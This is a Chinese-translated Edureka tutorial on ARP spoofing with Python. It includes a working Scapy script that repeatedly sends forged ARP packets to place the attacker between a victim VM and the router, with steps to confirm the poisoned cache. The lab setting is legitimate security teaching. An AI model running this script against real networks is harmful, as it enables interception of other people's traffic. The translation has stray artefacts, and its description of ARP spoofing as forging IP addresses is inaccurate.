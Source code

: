 # ARP 欺骗——用 Python 实现道德黑客的自动化

> 原文:[https://www . edu reka . co/blog/python-ARP-spoofer-for-ethical-hacking](https://www.edureka.co/blog/python-arp-spoofer-for-ethical-hacking)

当你告诉别人你是一个道德黑客，他们会把你当成某种巫师看待。好吧，这就是做一个有道德的黑客:有知识，有能力，有良心去做正确的事情！就像巫师的魔杖一样，Python 让有道德的黑客变得更加强大。在上一个教程中，你看到了如何使用 Python 编写一个 MacChanger 。在本教程中，您将看到 Python 如何用于 **ARP 欺骗**。

*对网络安全感兴趣？查看现场[网络安全培训](https://www.edureka.co/cybersecurity-certification-training)。*

我将讲述以下主题:

*   [什么是 ARP 欺骗？T3】](#WhatisARPSpoofing)
*   [写一个 ARP 欺骗器](#WritinganARPSpoofer)

我知道你们都在炒作道德黑客自动化，但首先，你们应该知道什么是 ARP 欺骗。

## **什么是 ARP 欺骗？**T3】

如今每个人都在使用 WiFi，你也是其中之一。你知道当你连接到路由器时数据是如何流动的吗？您的系统和路由器附带有 IP 地址。当您连接到路由器时，数据流在两个 IP 地址之间流动。路由器向您系统的 IP 地址发送数据，您的系统也向路由器的 IP 地址发送数据。

**ARP 欺骗**是一种通过伪造 IP 地址将网络流量重定向到黑客的技术。太技术化？让我为你使它变得简单。当一个系统和路由器之间(基本上是两个 IP 地址之间)有连接时，黑客会伪造他/她的 IP 地址。黑客会告诉 1)路由器他/她是系统，2)系统他/她是路由器。现在路由器会把数据发给黑客而不是系统，系统会把数据发给黑客而不是路由器。因此，网络流经黑客。

在道德黑客攻击中，匿名只是一件简单的事情。如果你对这个领域感兴趣，请查看直播 [CompTIA Security+认证](https://www.edureka.co/comptia-security-plus-certification-training) 。

![arp spoofing - edureka](../Images/d00492182e7c4a5f6e10b3a9f05b2350.png)T3】

现在我们知道了什么是 ARP 欺骗器，让我们用 Python 来构建它们吧！

## **写一个 ARP 欺骗器**

当我向您解释 ARP 欺骗时，我告诉过您它会重定向流量。要进行 ARP 欺骗，我们需要 3 个节点。一个是黑客节点，另外两个是系统，它们之间有一些通信。

对于本教程，我将使用虚拟机来创建节点。我将运行两台虚拟机，其中一台是黑客，另一台是受害者。第三个节点呢？嗯，那将是虚拟机连接到的路由器。

我的设置如下:我有两台连接到路由器的虚拟机。

在我们写一个 ARP 欺骗器之前，我们需要得到一些数据。因为黑客系统会伪造它的 IP 地址，我们应该知道路由器和受害者系统的 IP 地址和 MAC 地址。

要找到受害者和路由器的 IP 地址，从黑客的机器上运行以下命令:

```
$ arp -a
```

这将列出该网络中所有系统的 IP 地址和 MAC 地址。

![arp findip - arp spoofing - edureka](../Images/2d725eebc2f1cfd85e7c9f5c43c73131.png)T2】

在这里，网关是路由器，对于这个演示，我将选择 IP 地址为 **192.168.111.157** 的系统作为受害者。

运行 ARP 欺骗器后，我们需要一种方法来验证我们的 ARP 欺骗器是否工作。在现实世界中，ARP 欺骗的成功/失败取决于黑客系统的输出。但是对于这个演示，我们将使它变得简单。由于我们正在运行虚拟机，我将切换到受害者系统并检查路由器的 MAC 地址。

为此，在受害者系统的终端中运行以下命令:

```
$ arp -a
```

![arp-victim2-arp spoofing-edureka](../Images/97e5463db6015607844e68fee7b2f431.png)T2】

查看路由器的 MAC 地址，这将在我们运行脚本后改变。

现在我们有了欺骗所需的数据，我们准备编写一个 ARP 欺骗器。

要写一个针对 ARP 欺骗的欺骗器，我们来运行 PyCharm。要启动 PyCharm，请转到 PyCharm 被解压缩的目录并运行 shell 脚本。

```
$ cd pycharm-community-2018.3.4/ 
$ cd bin/
$ ./pycharm.sh
```

您将看到 PyCharm 的欢迎屏幕。点击**【创建新项目】**

![new project pycharm - arp spoofing - edureka](../Images/589df0aef350a0706ee298de3eab6d42.png)

输入项目的名称。我将这个命名为 **arp_spoof。**然后点击**创建**。

![new file pycharm - arp-spoofing - edureka](../Images/4f0d79c6792249037189ef6b3d97c1f4.png)

现在你将看到工作场所。接下来，让我们创建一个 Python 文件。要做到这一点，右击项目名称，进入“**新建**，点击“ **Python 文件**”。现在，您可以在这里编写 Python 脚本。

我正在编写的 ARP 欺骗器将使用 Python 的 **Scapy** 模块，这是一个数据包操作工具。

下面是 ARP 欺骗器的 Python 脚本:

```
import scapy.all as scap

while True:
    packet = scap.ARP(op=1, pdst="192.168.111.157", hwaddr="00:0c:29:1e:76:af", psrc="192.168.111.2")
    scap.send(packet) #Packet telling the Victim (with ip address 192.168.111.157) that the hacker is the Router.

    packet = scap.ARP(op=1, pdst="192.168.111.2", hwaddr="00:50:56:e7:86:57", psrc="192.168.111.157")
    scap.send(packet) #Packet telling the Router (with ip address 192.168.111.2) that the hacker is the Victim.
```

运行此脚本，网络将被重定向。让我们来验证它是否真的有效。在受害者的系统中，运行以下命令:

```
$ arp -a
```

![arp victim2 - arp spoofer - edureka](../Images/653f060a0d1866dde400f57b9f658646.png)T2】

可以看到路由器 IP 的 MAC 地址被改成了黑客系统的 MAC 地址。这意味着网络被重定向到黑客，来自受害者系统的数据被黑客系统认为是路由器。

*恭喜恭喜！您已经用 Python 编写了一个 ARP 欺骗器，并看到了它的运行。现在您已经知道 Python 如何有益于道德黑客，学习更多的模块、命令，并开始使用 Python 自动化道德黑客。*T3】

*有问题吗？请将它发布在 [Edureka 社区](https://edureka.co/community)上，我们将会回复您。*

如果您希望学习网络安全，并在网络安全领域建立丰富多彩的职业生涯，那么请查看我们的 [***网络安全认证培训***](https://www.edureka.co/cybersecurity-certification-training) ，该培训带有讲师指导的现场培训和真实项目体验。本培训将帮助您深入了解网络安全，并帮助您掌握该主题。

*您还可以看看我们新推出的关于 [**CompTIA Security+认证**](https://www.edureka.co/comptia-security-plus-certification-training) 的课程，这是 Edureka & CompTIA Security+首次与官方合作。它为您提供了一个获得全球认证的机会，该认证侧重于安全和网络管理员不可或缺的核心网络安全技能。*

通过 Edureka 的 [**研究生项目** 和 **NIT Rourkela**](https://www.edureka.co/post-graduate/cybersecurity) 以正确的方式学习网络安全，保护世界上最大的公司免受网络钓鱼者、黑客和网络攻击。